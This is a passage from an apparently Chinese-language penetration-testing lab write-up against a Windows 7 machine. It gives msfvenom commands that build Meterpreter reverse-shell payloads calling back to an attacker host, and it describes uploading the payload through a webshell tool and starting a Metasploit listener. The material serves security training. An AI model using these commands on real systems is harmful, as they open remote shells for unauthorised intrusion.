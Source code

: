 ![image-20220525172104767](images/28.png)

连接成功

因为是练习所以多试几种方法

在防火墙未关闭的情况下可以这样

- 1.反弹一个msf的shell回来，尝试关闭防火墙
- 2.尝试使用隧道连接3389

## 反弹msf

由于win7启动了安全模式，所以无法直接反弹shell到kali上；
通过msf生成一个木马`msf.exe`到win7上（-f 输出格式，-o 输出地址）；
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.121.129 LPORT=2333 -f exe -o msf.exe`

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=8888 -f elf > mshell.elf`

将生成的msf.exe通过蚁剑上传到win7上运行

使用`exploit/multi/handler`模块开启msf监听
